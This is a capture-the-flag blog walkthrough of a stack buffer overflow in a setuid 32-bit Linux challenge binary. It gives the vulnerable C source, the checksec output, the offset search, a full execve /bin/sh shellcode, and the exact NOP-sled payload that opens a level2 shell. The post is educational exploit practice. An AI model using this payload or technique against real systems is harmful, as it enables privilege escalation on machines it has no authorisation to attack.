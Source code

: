 ```yaml
---
title: "R0 | Pwnage Linux - Level1""
layout: post
date: 2019-08-10
tag:
- Pwnage
- x86
- Linux
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 Challenge
---
```


First let have a look at the source code: `cat /levels/level1.c`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[1024];

    strcpy(buf, argv[1]);
    return 0;
}
```

So this code's copying the argument to a 1024 bit buffer using the well known vulnerable function `strcpy`.

Great! Now, let's have a look at the binary it self: 

`# file /levels/level1`

```
level1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f355fe3b2ac64ecfedfcf48c6208429d0138e80d, not stripped
```

+ Has a setuid; probably for the next level ;)
+ Is compiled for 32 processors (e.g.: x86 arch)

`# checksec /levels/level1`

```
[*] '/root/ringzer0team/pwnageLinux/level1/a.out'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

+ No RELRO (Relocation Read-Only): it's possible to overwrite global variable
+ No canary found: it's possible to smash the stack 
+ NX (no executable) disabled: it's possible to write and execute from the stack
+ No PIE (Position Independant Executable): it tells the loader which virtual address it should use and keeps its memory layout quite static (e.g.: `0x8048000`)

So, basically, what you have to do is overflow the 1024-bit buffer to return to an address on the stack where's an x86 shellcode that generates a shell. Let's hope that the user will be level 2 and have launched this ELF using the `setuid`.

1. Find the offset of the return adress

```python
from pwn import *
cyclic(2000)
```

``` bash
gdb run <CYCLIC_PL>
Program received signal SIGSEGV, Segmentation fault.
0x6b61616a in ?? ()
```

```python
cyclic_find(0x6b61616a)
1036
```
2. Get a x86 shellcode

```python
 len("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")
45
```

3. Pick the return address

```bash
(gdb) run `python -c 'print "A" * 1040'`
(gdb) x/100wx $esp-1050
0xffffd456:	0x0048ffff	0x00040000	0x41410000	0x41414141
0xffffd466:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd476:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd486:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd496:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4d6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4e6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4f6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd506:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd516:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd526:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd536:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd546:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd556:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd566:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd576:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd586:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd596:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d6:	0x41414141	0x41414141	0x41414141	0x41414141
```

4. Craft the PL (e.g.: NOP + SHELLCODE + RETURNADRESS)

```bash
/levels/level1 `python -c 'print "\X90" * 1036-45 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
```

That's it!

```
level1@lxc-pwn-x86:~$ /levels/level1 `python -c 'print "\x90" * (1036-45) + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
level2@lxc-pwn-x86:/home/level1$ wc /home/level2/.pass
 1  1 21 /home/level2/.pass
level2@lxc-pwn-x86:/home/level1$
```
